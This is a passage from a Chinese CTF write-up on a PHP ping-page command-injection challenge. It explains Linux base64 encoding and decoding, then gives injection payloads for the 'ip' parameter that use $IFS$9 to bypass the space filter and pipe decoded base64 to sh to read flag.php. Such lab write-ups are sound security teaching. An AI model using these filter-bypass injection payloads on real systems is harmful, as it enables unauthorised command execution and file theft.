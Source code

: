 可以这里的body页面，不仅输出了flag.php，还输出了index.php

#### 解法3：sh命令来执行（用base64绕过）

这个有点类似我们之前讲的**PHP伪协议1**中的base64绕过原理，就是把源代码先base64使其代码执行失效，并把它打印到页面出来，我们再对加密后的源代码进行base64解密，就可以看到源代码是什么了。

这里我又要补充一下linux进行base64加密解密的代码了.

linux的base64加密命令：
   - ` cat file | base64 ` :从文件中读取并编码为base64字符串
   - ` base64file file.txt ` : 同上，也是从文件中读取并编码为base64字符串（base64file是一起的，不能分开）
   - ` echo "Hello World" | base64 ` :将字符串编码为base64字符串
   - ` echo -n "Hello World" | base64 `: 将字符串编码为base64字符串（不添加换行符）

linux的base64解密命令：
   - ` base64-d file.txt ` : 从文件中读取已编码的数据并解码
   - ` echo "base64_encoded_string" | base64 -d ` : 对base64编码的字符串进行解码
   - ` echo -n "base64_encoded_string" | base64 -d `: 对base64编码的字符串进行解码（不添加换行符）
   - ` echo "base64_encoded_string" | base64 -d | sh `: 对base64编码的字符串进行解码，并且对解码后的字符串命令进行执行

了解以上知识后，我们举例下面几个可以查看flag命令：

**加密命令**：` echo ''cat flag.php'' | base64 `

**解密命令并执行**: ` echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh ` 。对 ` Y2F0IGZsYWcucGhwCg==base64 ` 解密得到 ` cat flag.php ` 并且进行执行。

我们利用解密命令，注意空格符号会被过滤，全部用 ` $IFS$9 ` 代替空格即可。

所以最终的payload如下：` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh `。（这次的payload我没有填ip地址，单纯是不想让他输出而已，你想加一个ip地址也可以）

最后的结果也是一样的，网页显示不出来，要在F12源代码中查看。

如果我硬要你显示出来在网页呢？那就再**base64加密一次**，这样你的注释符号全部统统被我加密去掉了。payload就是再补充一个 ` |$IFS$9base64 ` 即可。

即` /?ip=;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh|$IFS$9base64 `

结果如下：

